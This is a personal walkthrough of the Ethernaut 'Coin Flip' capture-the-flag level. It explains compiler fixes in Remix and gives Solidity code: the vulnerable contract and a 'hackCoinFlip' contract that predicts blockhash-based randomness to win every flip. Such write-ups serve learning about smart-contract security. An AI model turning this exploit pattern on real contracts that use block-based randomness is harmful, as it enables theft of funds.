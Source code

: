 # Coin Flip

This level is really challenging...

Well, I am the king endowed with IQ not it. So, I summoned the great community
of ethereum hackers and with their backing there has been some progress.

I found out, by googling this
[article](https://medium.com/@nicolezhu/ethernaut-lvl-3-walkthrough-how-to-abuse-psuedo-randomness-in-smart-contracts-4cc06bb82570)
on medium that provided a way.

I had to use [Remix](remix.ethereum.org) online editor for this level. The first
issue I got was that the math library can't be found.

Googling again, I found an issue
[here](https://github.com/OpenZeppelin/openzeppelin-contracts/issues/1824) on
the SafeMath's github repo that helped me resolved this blocker.

By prefixing the import link with `https://github.com/OpenZeppelin/` resolved
the _can't be found issue_.

I also had to change the Solidity version I was using to version 0.6.0. Doing
this, issue of naming the constructor function same as the contract name in
earlier version of Solidity showed up.

I only needed to **read the error message** to resolve the issue. I changed the
name simply to `constructor()` and that was it.

Then `block.blockhash()` has also deprecated and it now just `blockhash()`.

So, I made a custom contract similar to the CoinFlip contract: `hackCoinFlip`,
followed the process in CoinFlip and ensure to always pass in the boolean state
to always set `bool side` to **false**.

```solidity
import 'https://github.com/OpenZeppelin/openzeppelin-solidity/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hackCoinFlip {
    CoinFlip public originalContract = CoinFlip(0x525262E283CCB7793E0b9a479DFbd0Ad561b14b8);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(bool _guess) public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
         originalContract.flip(_guess);
        } else {
          originalContract.flip(!_guess);
        }
    }
}
```

I deployed the contract, `hackCoinFlip`, 10 successful times to pass this stage.

It's been really challenging and adventorous for me.

On to the next challenge.
